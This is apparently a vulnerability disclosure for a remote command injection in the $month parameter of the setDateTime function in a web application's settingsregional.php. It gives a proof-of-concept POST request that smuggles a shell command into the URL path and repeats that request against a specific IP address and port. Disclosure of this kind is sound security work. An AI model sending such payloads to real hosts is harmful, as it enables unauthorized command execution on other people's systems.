 # `$month` parameter in the file `settingsregional.php` has a Remote Command Injection

### Description

The  parameter **$month** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

### POC

```
POST /settings/setDateTime/2000/12$(id>poc_month.txt)/12/12/12 HTTP/1.1
Host: XXXXXXX
```

### Example 

```
POST /settings/setDateTime/2000/12$(id>poc_month.txt)/12/12/12 HTTP/1.1
Host: 222.103.211.89:8004
```

![image-20250317212755457](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172127688.png)

![image-20250317212817221](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172128268.png)